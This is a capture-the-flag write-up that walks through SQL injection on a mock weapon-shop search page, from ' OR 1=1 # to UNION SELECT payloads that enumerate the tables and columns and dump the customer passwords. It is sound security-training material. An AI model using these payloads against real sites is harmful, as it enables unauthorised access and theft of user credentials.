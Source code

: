# SHODAN WRITE UP - SQLI EASY

> Tags : sql  
> Difficulty : medium  
> Attack type : basic sql injection  

The challenge presented here is the first of a series of 6 challenges concerning SQL injections.  
Once the url is open, we arrive on the home page of a weapon sales site.  

![sql-easy-site](/images/sql-easy-site.png)

By wandering around a bit, we can see 3 sections, `Looking for a specific item?`, `All shops`, and `My profile`.  
Throughout the sqli challenge suite, pages containing a vulnerable field can be identified by the presence in the source code of an `IGNOREME` appendix.  
Here our candidate is the item search page.  

![sql-easy-search](/images/sql-easy-search.png)

Let's try to find a weapon.  
After some arbitrary tests, here is one.  
This allows us to observe at first what the database returns to us, and what we can put in the search bar (word, number, ..).  

![sql-easy-shuriken](/images/sql-easy-shuriken.png)

The field therefore waits for a word, surely delimited by quotes in the SQL query, and returns to us several elements rendered by the code, such as a name, a link, a price, a photo.  
Here is what the source code looks like, with our famous appendix `IGNOREME`.  

![sql-easy-source](/images/sql-easy-source.png)

Now let's try some basic SQL injections.  
These are easily found on the net by looking for cheat sheet sqli.  
Our first payload is probably the best known of them : `' OR 1=1 #`.  
Some explanations :  
The SQL request on the server side must surely look like something of the format :  
```sql
SELECT * FROM item WHERE item_name = '$user_input' [...]
```
The starting quote in our payload is therefore used to close the field in which a word is contained, and the ending hashtag, comment in SQL, is used not to interpret the rest of the initial request (including the IGNOREME).  
As to `OR 1=1`, it allows to generate the following request :  
```sql
SELECT * FROM item WHERE item_name = '' OR 1=1
```
`1=1` being always true, the database is supposed to return to us all that contains `item`.  

![sql-easy-dump](/images/sql-easy-dump.png)

Now is the time to make more complex and precise payloads in order to descend the layers of the database to our flag.  
For this, we can use a second technique, the keyword `UNION`.  
In SQL, this allows you to combine two requests in one, like a `&&` in unix.  
So we're going to close our field, and create a second request over which we have full control.  
Here is the payload we are using now:  
```sql
' UNION SELECT 'a',valeur,1,1,'a' #
```
The `SELECT` allows us to get values. For the rest, looking for a few minutes, we can see that the rendering of the page expects 5 values to display an article.  
The first is a string that represents the url of the article, for a href. Then, we have the name of the article, its price, another integer, and a last string which represents the url of the photo.  
So we can put values in hard, and make our article name dynamic in order to display what we want.  
  
Display of the version of the database :
```sql
' UNION SELECT 'a',@@version,1,1,'a' #
```

![sql-easy-version](/images/sql-easy-version.png)

Display the username :
```sql
' UNION SELECT 'a',user(),1,1,'a' #
```

![sql-easy-user](/images/sql-easy-user.png)


Display the database name :
```sql
' UNION SELECT 'a',database(),1,1,'a' #
```

![sql-easy-db](/images/sql-easy-db.png)

The results are satisfactory, we now have available the name of the database.  
To go down in depth, we now need to know the names of the tables, then the columns of each table, then the values contained in each column.  

Here is our payload to print all the tables :  
```sql
' UNION SELECT 'a',table_name,1,1,'a' FROM information_schema.tables #
```

![sql-easy-table](/images/sql-easy-table.png)

So here we are with the name of each table. The one that interests us, because often fruitful, is the one that contains customer data: `customer`.  
Now we need to know which columns are contained in the `customer` table.  

Here is our payload for the columns :
```sql
' UNION SELECT 'a',column_name,1,1,'a' FROM information_schema.columns WHERE table_name = 'customer' #
```

![sql-easy-column](/images/sql-easy-column.png)

There are 5 columns, and the one that catches our eye is the `password` column.  
We now have 3 options, from the widest to the most precise :  
- Dump toutes les colonnes
- Dump uniquement l'user qui nous interesse
- Dump uniquement le flag

For the first option, we can use `SELECT *` because our table contains as many columns as the renderer expects from the argument. So it will automatically fill in the fields.  

Here's the payload :  
```sql
' UNION SELECT * FROM customer #
```

![sql-easy-all](/images/sql-easy-all.png)

All users of the site are therefore visible.  
To select only the user that interests us, we can use information that we have known since the start of this challenge: the flag is 128 characters.  

Here's the payload :
```sql
' UNION SELECT * FROM customer WHERE length(password) = 128 #
```

![sql-easy-focus](/images/sql-easy-focus.png)

This request will therefore be returned to us via SELECT, the elements of the customer columns whose password is 128 in length.  
We can use this statement to further refine our request and display only the flag.  

Here's the payload :
```sql
' UNION SELECT 'a',password,1,1,'a' FROM customer WHERE length(password) = 128 #
```

![sql-easy-flag](/images/sql-easy-flag.png)

We have the flag, we just have to put it back on the platform.  